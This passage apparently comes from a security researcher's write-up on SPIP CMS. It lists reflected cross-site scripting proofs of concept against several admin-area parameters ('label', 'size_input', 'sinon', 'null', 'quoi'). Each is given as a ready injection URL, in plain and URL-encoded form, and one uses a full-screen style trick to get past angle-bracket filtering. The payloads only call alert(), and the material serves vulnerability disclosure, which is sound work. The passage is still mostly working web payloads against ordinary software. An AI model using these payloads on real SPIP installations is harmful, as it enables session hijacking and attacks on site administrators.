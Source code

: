 
### XSS on label

```html
http://lokal/ecrire/?exec=rubriques&label=laluka<a href=err onfocus=alert(domain) autofocus/>
http://lokal/ecrire/?exec=rubriques&label=laluka%3Ca%20href=err%20onfocus=alert(domain)%20autofocus/%3E
```
<img class="img_big" src="/hacking/rce_on_spip_and_root_me/xss_label.jpg" alt="xss_label">


### XSS on size_input

```html
http://lokal/ecrire/?exec=rubriques&size_input=lalu" onfocus=alert(domain) autofocus foo="
http://lokal/ecrire/?exec=rubriques&size_input=lalu%22%20onfocus=alert(domain)%20autofocus%20foo=%22
```
<img class="img_big" src="/hacking/rce_on_spip_and_root_me/xss_size_input.jpg" alt="xss_size_input">


### XSS on sinon

```html
http://lokal/ecrire/?exec=article&id_article=1&sinon=<a href=err onfocus=alert(domain) autofocus/>
http://lokal/ecrire/?exec=article&id_article=1&sinon=%3Ca%20href=err%20onfocus=alert(domain)%20autofocus/%3E
```
<img class="img_big" src="/hacking/rce_on_spip_and_root_me/xss_sinon.jpg" alt="xss_sinon">


### XSS on null

This one had more restrictions on the angle brackets, so a style trick and woosh!\
The idea here is to have a style to cover the full screen, and execute an action on hover. As soon as the mouse enters the page, it's a win!

```html
http://lokal/ecrire/?exec=plan&null=lalu' onmouseover=alert(domain) style='width:9999999px;height:9999999px;' foo=
http://lokal/ecrire/?exec=plan&null=lalu%27%20onmouseover=alert(domain)%20style=%27width:9999999px;height:9999999px;%27%20foo=
```
<img class="img_big" src="/hacking/rce_on_spip_and_root_me/xss_null.jpg" alt="xss_null">


### XSS on quoi (ie-specific)

```html
http://localhost:8000/ecrire/?exec=messages&typem=tout&quoi='/>ie_specific_xss<script>alert(domain)</script>'
```
<img class="img_big" src="/hacking/rce_on_spip_and_root_me/xss_quoi_ie.jpg" alt="xss_quoi_ie">
